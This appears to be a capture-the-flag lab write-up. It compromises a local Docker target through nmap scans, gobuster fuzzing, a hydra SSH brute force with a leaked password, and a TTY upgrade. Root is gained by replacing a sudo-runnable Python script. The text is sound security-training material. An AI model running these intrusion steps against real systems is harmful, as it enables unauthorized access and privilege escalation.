 ![image](https://github.com/user-attachments/assets/0ccf5483-95ea-4e87-ba10-fcc6b98ad4e0)
```bash
ping -c 1 172.17.0.2
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
nmap -sCV -p22,80 172.17.0.2 -oN targeted
```
![Pasted image 20250128120132](https://github.com/user-attachments/assets/491dde82-2228-47a7-bdc4-2166ae80b2ed)

## **Fuzzing**
```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x txt,py,php,sh,html
```
![Pasted image 20250128120612](https://github.com/user-attachments/assets/4d96523f-7ecc-44fa-931d-41cb2f9b9f54)

## **inside one of these paths we find this which seems to be a password and we can try it to brute force it by SSH**

![Pasted image 20250128120639](https://github.com/user-attachments/assets/8412ede0-f7d3-43c7-9326-26389d71a4e5)
JIFGHDS87GYDFIGD

```bash
hydra -L /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -p JIFGHDS87GYDFIGD ssh://172.17.0.2
```
![Pasted image 20250128121222](https://github.com/user-attachments/assets/20828ff9-06c6-4fe1-8b99-ab5b74c4985e)

## **now we connect via SSH**
```bash
ssh carlos@172.17.0.2
```
![Pasted image 20250128121315](https://github.com/user-attachments/assets/5b6cd77a-d921-4ffe-a678-725075f0bde1)

## **we review permissions to elevate privileges**
```bash
sudo -l
```
![Pasted image 20250128121409](https://github.com/user-attachments/assets/e71f2b9a-f678-404c-8752-987db1e0223f)

## **we make a tty treatment**
```bash
script /dev/null -c bash
"CTRL+Z"
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```

## **after the treatment of the tty we are going to look for the script file .py to see its content**

![Pasted image 20250128122053](https://github.com/user-attachments/assets/7d73f417-fdee-4dbc-ba88-f17a720b12cd)

## **we can't modify the file because we don't have permissions so we will delete it and create a new one we will put the code inside and give it execution permissions**

![Pasted image 20250128122421](https://github.com/user-attachments/assets/ef2264c7-5b18-48c5-8162-3f3efaab1a69)

## **we execute the command as we get the answer sudo -l**
```bash
sudo /usr/bin/python3 /opt/script.py
```
![Pasted image 20250128122557](https://github.com/user-attachments/assets/21ad525c-cbb3-4ca2-be91-5272634503ce)
